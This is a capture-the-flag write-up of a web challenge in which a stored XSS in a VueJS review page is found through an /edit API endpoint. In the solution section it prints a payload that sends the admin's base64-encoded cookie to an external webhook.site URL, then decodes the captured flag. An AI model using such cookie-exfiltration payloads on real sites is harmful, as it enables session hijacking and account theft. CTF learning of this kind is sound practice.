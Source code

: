 # A Good Vue
> Check out my cool artworks over there: goodvue.rumble.host If you want an Admin to check out your cool stuff: goodvue-bot.rumble.host

## About the Challenge
We were given a website to test and this website using VueJS. Here is the preview of the website


[Image extracted text: RUMBLE
About
EXPLOIT
Welcome to my
magnificent photo feedback page
Because selfhosted versions of a review page a definitely more secure
Likes: 8
Dislikes: 3
review: This is very good picture. The author has done a very
job in
terms of saturation and color grading; but the scene lacks a bit of motion: Our
review: 7/10
Expo
Jury
good]


If we press the `EXPLOIT` button in the corner of the website, it will return an alert


[Image extracted text: goodvue rumble.host says
You cannot hack me
OK]


But there is an API endpoint that you can access [here](http://goodvue-api.rumble.host). If you access the homepage, the website will request to the API endpoint. Here is the HTTP request when the website send a request to `http://goodvue-api.rumble.host/get`

```
POST /get HTTP/1.1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
...

{"id":"1","token":"OUR_COOKIE_VALUE"}
```

And it will return the review information such as likes, dislikes, and also the comments.

## How to Solve?
Because in the description there is an admin bot, so we know this is a XSS chall, and then because this website using VueJS i tried to check every request and I found this [url](http://goodvue.rumble.host/src/components/ImageComponent.vue)


[Image extracted text: methods
like
function()
this.likestt;
dislike:
function( )
this.dislikestt;
todo_implement_
update
message )
axios
apiUr]
{edit
id"
this.id? this.id
"token
this.token,
text"
unimplemented:
H});
created()
this
token
this.Scookies.get(
token") ;
if(!this
token)
return;
axios
post(apiUrl
'Iget'
id"
this.id
this.id
"0"
"token
this
token,
}).then( (ret)
=>
if(!ret
data
success
success") {
alert(
Could
not
retrieve
information for image
id
+thi
return;
this.likes
parseInt(ret
data
likes);
this
dislikes
parseInt(ret
data
dislikes) ;
this.review
ret.data.review;
}) .catch( (e_
this
Scookies
remove(
toren
this
Srouter.push("/");
});
put]


As you can see there are 2 endpoints:
* http://goodvue-api.rumble.host/get
* http://goodvue-api.rumble.host/edit

When i tried to edit one of the review by sending this request

```
POST /edit HTTP/1.1
Host: goodvue-api.rumble.host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
...

{"id":"1","token":"OUR_COOKIE_VALUE","text":"test"}
```

Luckily our input was reflected in the website


[Image extracted text: Likes: 2
Dislikes:
Jury review: This is very good picture. The author has done a very good job in
terms of saturation and color grading; but the scene lacks a bit of motion: Our
review: 7/10 UPDATE: test]


And then i tried to use normal XSS payload

```html
<img src=x onerror=alert(document.cookie)>
```


[Image extracted text: goodvue rumble.host says
token-71ebba38fb8b228deb2c4902777c4d
OK
to
2db-
elfhosted versions of areview bade
definitelv more]


And we got an alert, so I tried to create another payload to steal the admin cookie. Here is the payload I used to steal the cookie

```
<img src=x onerror=\"var i=new Image(); i.src='https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie='+btoa(document.cookie)\">"
```

After that, send the cookie to the admin and then wait until we got the admin's cookie


[Image extracted text: Request Details
Permalink
Raw content
Expont as-
GET
https IIwebhook site/47c2cdc9-1233-4ac8-8e8b-55efeO6aeb2c/?cookie-dG9rZW49ZTcOM
mRiYjAxZTZkMjISNjRiOTMANZEZNTIZMzk1OyBmbGFnPUNTUnszdjNuX3ZIMI9NGSfaD
RZMI9YUINg
Host
128.140.84.181 whois
Date
07/09/2023 6.49.29 PM
3 hours ag0)
Size
bytes
61856250-208c-4a4d-980b-ae84163ad1e4
Files
Query strings
cookie
dG9rZN49ZTceMmRiYjAxZTZkMjISMjRiOTMANZEzNTIZMzklOyBmbGFnPUNTUnszdjNuX3z
1M19jNGSfaDRZM9YUIN?
No content]


Decode the cookie using base64 and voilà


[Image extracted text: Recipe
0
Input
+
D
dG9rZWA9ZTcOMmRiYjAxZTZkMjISNjRiOTMANzEzNTIZMzklOyBmbGFnPUNTUnszdjNuX3Z1Ml9jNGSfaDRZML9YUINS
From Base64
Alphabet
A-Za-z0-9+ /
Remove non-alphabet chars
Strict mode
Output
Itoken-e742dbbale6d22964b938713526395; flag-CSR{3v3n_vu3
c4n_
h4v3_XsS}]


```
CSR{3v3n_vu3_c4n_h4v3_XSS}
```